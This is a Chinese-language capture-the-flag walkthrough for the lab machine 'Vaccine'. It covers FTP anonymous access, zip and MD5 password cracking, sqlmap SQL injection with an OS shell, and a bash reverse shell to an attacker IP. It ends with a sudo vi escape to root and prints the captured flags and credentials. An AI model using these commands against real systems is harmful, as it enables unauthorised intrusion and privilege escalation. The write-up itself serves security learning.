



<center>Vaccine</center>


[toc]


## Vaccine

> Vaccine


### 1. task

1. Besides SSH and HTTP, what other service is hosted on this box?

```shell
```

2. This service can be configured to allow login with any password for specific username. What is that username?

```shell
```

3. What is the name of the file downloaded over this service?

```shell
```

4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

```shell
```

5. What is the password for the admin user on the website?

```shell
```

6. What option can be passed to sqlmap to try to get command execution via the sql injection?

```shell
```

7. What program can the postgres user run as root using sudo?

```shell
```


### 3. flag

> 获取flag

* 信息收集

```shell
export 10.129.235.4

nmap -sV -sC $ip

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.16.32
|      Logged in as ftpuser
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxr-xr-x    1 0        0            2533 Apr 13  2021 backup.zip
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```shell
# ftp 匿名登陆
ftp $ip

anonymous/anonymous

# 下载
get backup.zip

# unzip 解密，需要密码
# john 解密
zip2john backup.zip > pass 
# 下载wordlists
sudo apt install wordlists
john --wordlist=/usr/share/wordlists/john.lst pass 
```



> 解密出来：`index.php``index.css`

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>

# 用户名和密码写死的
admin / qwerty789
```

> [md5](https://www.cmd5.com/)

> 解密方法2

```shell
# 查看输入那种hash
echo "2cb42f8734ea607eefed3b70af13bbd3" > hash
hashid hash

# hash爆破
sudo apt install hashcat
hashcat -a 0 -m 0 hash /usr/share/wordlists/rockyou.txt

2cb42f8734ea607eefed3b70af13bbd3:qwerty789
```

> 登陆网站。

* sql注入

```shell
# 查询页面
http://10.129.235.4/dashboard.php?search=admin%27%20or%201=1

# 报错说明前端数据可以影响后端查询。
sqlmap -u 'http://10.129.235.4/dashboard.php?search=any+query' --cookie="PHPSESSID=uloff4gftsunmi5sgjd9ebqugm" -batch
```



> 存在sql注入，使用sqlmap`os-shell`获取一个shell

```shell
sqlmap -u 'http://10.129.235.4/dashboard.php?search=any+query' --cookie="PHPSESSID=uloff4gftsunmi5sgjd9ebqugm" -batch --os-shell

# 获取到shell 获取反弹shell
# 开启监听
nc -lnvp 4444
# 反弹shell
bash -c "bash -i >& /dev/tcp/10.10.16.32/4444 0>&1"

# 交互shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

/var/lib/postgresql$ cat user.txt
cat user.txt
ec9b13ca4d6229cd5cc1e09980965bf7
```

> 提权： 

```shell
# 网站目录下有数据库配置
/var/www/html

cat dashboard.php
```

```php
<?php
session_start();
if($_SESSION['login'] !== "true") {
  header("Location: index.php");
  die();
}
try {
  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
}

catch ( exception $e ) {
  echo $e->getMessage();
}

```

> 登陆ssh`postgres/P@s5w0rd!`

```shell
ssh postgres@10.129.235.4 

# 登陆
# 查看权限
sudo -l
```



> 输出显示` postgres`用户权限下，可以使用sudo权限编辑pg_hba.conf文件。

```shell
# 编辑 pg_hba.conf获取shell

# 打开pg_hba.conf
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

# 输入,直接输入 : 进行输入，无须打开编辑模式
:set shell=/bin/sh

# 再输入shell
:shell

# 获取到root权限了
cd /root
cat root.txt
dd6e058e814260bc70e9bbdef2715849
```

